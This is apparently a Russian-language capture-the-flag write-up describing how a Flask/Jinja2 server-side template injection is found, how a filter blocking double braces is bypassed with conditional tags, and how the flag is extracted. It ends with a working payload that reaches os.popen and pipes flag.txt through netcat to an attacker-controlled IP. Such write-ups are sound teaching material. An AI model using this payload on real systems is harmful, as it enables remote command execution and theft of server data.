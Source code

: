### Writeup

На главной странице задания есть возможность ввести пользовательские данные, попробуем заполнить поля и отправить их.
![Ввод пользовательских данных](writeup_pics/1.png)

При отправке данных вся информация отражается пользователю.

![Данные отобразились пользователю](writeup_pics/2.png)

Кроме того, при изучении хедеров в ответе сервера можно заметить, что в качестве бекенда используется python. Проведём стандартный тест на SSTI (Server Side Template Injection) для Flask:

![Тест на уязвимость](writeup_pics/3.png)

Мы получили блокировку от сервера, что подтверждает догадки об уязвимости SSTI

![Блок от сервера](writeup_pics/4.png)

В синтаксисе шиблонизатора Jinja2 (который используется в Flask-приложениях) поддержаваются альтернативные способы реализации шаблонов: для обхода блокировки попробуем использовать условное выражение `{% if 1==1 %} This text visible only if condition is true {% endif %}` вместо двойных брекетов `{{}}`:

![Обход блокировки](writeup_pics/5.png)

Блокировка успешно обойдена.

![Обход блокировки](writeup_pics/6.png)

Так как у атакующего есть лишь информация о том, верно ли выражение в брекетах или нет, у него есть возможность получить флаг посимвольным чтением, или же послать флаг на подконтрольный ему сервер, как показано в примере ниже:

`{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag.txt | nc 192.168.100.48 7777')['read']() %} a {% endif %}`

